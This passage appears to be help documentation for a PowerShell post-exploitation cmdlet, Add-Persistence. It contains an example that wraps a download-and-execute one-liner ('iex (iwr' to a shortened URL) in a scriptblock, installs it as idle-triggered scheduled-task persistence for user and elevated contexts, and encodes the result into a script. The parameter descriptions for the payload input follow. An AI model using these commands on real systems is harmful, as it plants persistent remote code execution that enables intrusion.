 ### -------------------------- EXAMPLE 2 --------------------------
```
$Rickroll = { iex (iwr http://bit.ly/e0Mw9w ) }
```

$ElevatedOptions = New-ElevatedPersistenceOption -ScheduledTask -OnIdle
$UserOptions = New-UserPersistenceOption -ScheduledTask -OnIdle
Add-Persistence -ScriptBlock $RickRoll -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose -PassThru | Out-EncodedCommand | Out-File .\EncodedPersistentScript.ps1

Description
-----------
Creates a script containing the contents of the provided scriptblock that when executed with the '-Persist' switch will persist the payload using its respective persistence mechanism (user-mode vs.
elevated) determined at runtime.
The output is then passed through to Out-EncodedCommand so that it can be executed in a single command line statement.
The final, encoded output is finally saved to .\EncodedPersistentScript.ps1

## PARAMETERS

### -ScriptBlock
Specifies a scriptblock containing your payload.

```yaml
Type: ScriptBlock
Parameter Sets: ScriptBlock
Aliases: 

Required: True
Position: Named
Default value: None
Accept pipeline input: True (ByValue)
Accept wildcard characters: False
```

### -FilePath
Specifies the path to your payload.

```yaml
Type: String
Parameter Sets: FilePath
Aliases: Path

Required: True
Position: Named
Default value: None
Accept pipeline input: False
Accept wildcard characters: False
```
